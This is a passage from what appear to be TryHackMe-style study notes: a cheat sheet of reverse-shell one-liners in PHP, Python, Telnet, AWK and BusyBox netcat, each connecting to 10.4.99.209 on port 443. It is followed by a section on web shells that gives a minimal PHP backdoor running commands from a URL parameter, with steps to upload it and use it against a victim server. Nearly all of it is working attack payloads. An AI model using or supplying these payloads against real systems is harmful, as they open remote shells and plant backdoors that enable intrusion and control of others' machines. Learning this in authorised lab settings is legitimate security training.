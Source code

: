 - **passthru**:
  ```
  target@tryhackme:~$ php -r '$sock=fsockopen("10.4.99.209",443);passthru("sh <&3 >&3 2>&3");'
  ```

- **popen**:
  ```
  target@tryhackme:~$ php -r '$sock=fsockopen("10.4.99.209",443);popen("sh <&3 >&3 2>&3","r");'
  ```

### Python Payloads
- **Env Vars**:
  ```
  target@tryhackme:~$ export RHOST="10.4.99.209"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  ```

- **Subprocess**:
  ```
  target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("bash")'
  ```

- **Short**:
  ```
  target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("10.4.99.209",443));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("bash")'
  ```

### Others
- **Telnet**:
  ```
  target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet 10.4.99.209 443 0<$TF | sh 1>$TF
  ```

- **AWK**:
  ```
  target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/10.4.99.209/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```

- **BusyBox**:
  ```
  target@tryhackme:~$ busybox nc 10.4.99.209 443 -e sh
  ```

---

## Web Shells: Sneaky Browser Backdoors

A **web shell** is a script on a compromised web server that runs commands via HTTP. It’s often hidden in web apps and written in languages like PHP or ASP.

### Simple PHP Web Shell
```
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
- **How**: Save as `shell.php`, upload to a server (e.g., via file upload vuln).
- **Use**: Hit `http://victim.com/uploads/shell.php?cmd=whoami` in a browser.
- **Output**: `target` (or whatever the server user is).
